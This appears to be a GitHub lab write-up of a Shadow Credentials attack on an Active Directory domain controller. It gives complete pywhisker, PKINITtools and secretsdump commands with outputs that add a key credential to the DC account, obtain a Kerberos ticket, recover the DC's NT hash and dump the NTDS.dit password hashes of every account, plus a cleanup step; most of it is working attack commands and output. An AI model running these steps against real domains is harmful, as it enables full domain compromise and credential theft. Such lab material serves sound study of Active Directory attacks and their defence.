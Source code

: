 # Shadow Credentials

## tips
1. use python3.8
2. use the `-dc-ip` flag to point to the domain controller

## Scenario
domain: lab.local
ADCS: present and required for PKINIT
user: sysadmin
group membership: key admins
privilege: AddKeyCredentialLink over Domain Controller: DC$

## Step #1: List key credentials
listing the keys on the DC. the out gives an either/or answer so we should try going for it

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action list
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

## Action #2: Add key credentials

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action add
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e3550b17-9746-d819-99eb-0d907c12922d
[*] Updating the msDS-KeyCredentialLink attribute of dc$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: dnUC8Y14
[VERBOSE] No pass was provided. The certificate will be stored with the password: cCw1PLYcsQsUJggLshDq
[+] Saved PFX (#PKCS12) certificate & key at path: dnUC8Y14.pfx
[*] Must be used with password: cCw1PLYcsQsUJggLshDq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

## Step #3: Getting TGT
using PKINIT, we request a TGT

### Command
```bash
python3.8 /opt/PKINITtools/gettgtpkinit.py -v -dc-ip dc -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

### Output
```
2022-07-05 05:58:06,827 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-07-05 05:58:06,841 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-07-05 05:58:18,909 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-07-05 05:58:18,909 minikerberos INFO     5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
INFO:minikerberos:5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
2022-07-05 05:58:18,912 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

## Step #4: Getting NTHASH
using the key generated in Step #3 and exporting the generated TGT into our kerberos cache, we're going to get the NTLM hash for the DC :D

### Command
```bash
export KRB5CCNAME=/opt/pywhisker/dnUC8Y14.ccache
python3.8 /opt/PKINITtools/getnthash.py -dc-ip dc lab.local/'DC$' -key 5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
```

### Output
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
8028aac845cdc82881b55e1d0b1c88e5
```

## Step #5: Dumping NTDS.dit
hashes. hashes everwhere

### Command:
```bash
secretsdump.py -just-dc-ntlm -dc-ip dc lab.local/'DC$'@dc.lab.local -hashes :8028aac845cdc82881b55e1d0b1c88e5
```

### Output:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:eff164ce8ed0ac98cb7520c4de7dfc0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
LAB.local\FSAdmin:1104:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\Regular:1106:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\SysAdmin:1107:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\JohnSmith:1108:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\NewUser:1113:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
DcpnYhFXlO:1117:aad3b435b51404eeaad3b435b51404ee:565cae8a079a5078163bc7969d132b9b:::
PoCOUBzGGU:1118:aad3b435b51404eeaad3b435b51404ee:1713981fe06cd340348300f7500befcf:::
john:1123:aad3b435b51404eeaad3b435b51404ee:98da674948a73eb2cfa124e9aca27a03:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:8028aac845cdc82881b55e1d0b1c88e5:::
CLIENT1$:1105:aad3b435b51404eeaad3b435b51404ee:43ca831bd985a0e64297f7799b39660b:::
FS$:1115:aad3b435b51404eeaad3b435b51404ee:995c9d47bb2bf0ff113b525d38cae2e1:::
HZBDQHVP$:1116:aad3b435b51404eeaad3b435b51404ee:38ae9e7ea8d9ab0f07982baac9e11b48:::
SFDRQNQH$:1119:aad3b435b51404eeaad3b435b51404ee:094a2d83f66f017ccd989a024e7bceee:::
JWHMHWBU$:1120:aad3b435b51404eeaad3b435b51404ee:53fb78699467a971ee2a51109afcf7e2:::
gmsa1$:1122:aad3b435b51404eeaad3b435b51404ee:2be99b0ca6594829276aaf74358624b8:::
[*] Cleaning up... 
```

## (Optional) Step #6: Removing the msDS-KeyCredentialLink
you will need the device GUID for this stem --> it's provided in the output of the command in step #1

### Command
```bash
python3.8 pywhisker.py --dc-ip dc -d 'lab.local' -u 'sysadmin' -p 'Abc123!!' --target 'DC$' --action remove --device-id 'e3550b17-9746-d819-99eb-0d907c12922d'
```

### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Found value to remove
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```